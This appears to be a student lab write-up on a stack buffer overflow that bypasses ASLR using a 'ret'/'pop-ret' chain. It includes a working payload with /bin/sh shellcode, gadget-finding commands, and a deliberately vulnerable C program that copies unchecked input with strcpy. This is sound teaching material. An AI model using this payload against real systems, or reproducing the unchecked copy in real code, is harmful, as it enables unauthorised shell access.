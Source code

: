 # Lab4 - Buffer overflow attack(turn on ASLR, turn off NX), 

## !! Some images are from the course lecture files !!

## Overview
+ If ASLR is off, we can find out exact address of the user input.
+ But, with ASLR is on, it's really hard to get exact address of the stack. Because it changes whenever executing.
+ When calling a function with an user input, there should be the input argument in the stack frame. 
+ If we can found the address of the argument in the stack, and then we can use that address to execute our malicious code.

## Payload
Payload = shellcode + alignment + &ret*N + &pop-ret

## Before get started
+ First, compile the source at the bottom of this page like below.
```
gcc -g -m32 -z execstack -fno-stack-protector ans_check6.c -o ans_check6
```
+ Second, make sure the ASLR option is turned on . The value should be 1 or 2.(Not 0)
```
cat /proc/sys/kernel/randomize_va_space
```

## Steps
1. Find out where the break points are. There are two break points. Before calling strcpy and after calling.(line number 12 and 14)
2. Run gdb and set break points.
3. Run with the random argument you can notice.(Run like this in gdb. run 33333333)
4. Find the return address and a parameter from the stack using x/72xw $esp.
5. If you investigate stack frame further, you can find exact same address upper portion in the stack frame. Why? because main function call also resides in the stack frame and it also has input arguments.(These are argc, argv)
6. Now, you can caculate how many bytes do we need to overwrite up until the main argv. If we can reach to that point, we may execute main function's argument strings(It is a malicous code)
7. In the image below, we are going to overwrite from Number 1 to Number 5. But What are we going to write?
### Figure out how many bytes do we need to fill up
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto3.png)
8. Overwrite the address of 'ret' and 'pop-ret' instruction up until the second address! About finding out the address of 'ret' and 'pop-ret' is explained below

## What is 'ret' and 'pop-ret'
+ 'ret' pops up the top of the stack and shrink the stack point(esp)
+ 'pop-ret' is similar to 'ret' and it pops one more time. 
+ How to find 'ret' and 'pop-ret'? In the program there should be several ret and pop-ret instruction itself.
```
objdump -D ans_check6 | less
objdump -D ans_check6 | grep -B3 ret | grep -A1 pop
```

## The payload I use
```
./ans_check6 $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x90'+'\x21\x86\x04\x08'*55+'\x91\x83\x04\x08'")
```

## Result of getting a new shell 
![howto4](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto4.png)


## Our stack frame
![howto1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto1.png)

## Our strategy
![howto2](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto2.png)


## After injecting ret & pop-ret
![howto3](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/howto5.png)


## ans_check6.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[34];
  printf("check_answer.ans is at address %p\n", ans);
  printf("check_answer.ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {
  printf("main:%p\n", main);
  printf("check_answer:%p\n", check_answer);
  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  printf("main.argc is at address %p\n", &argc);
  printf("main.argv[0] is at address %p\n", argv[0]);
  printf("main.argv[1] is at address %p\n", argv[1]);
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}

```
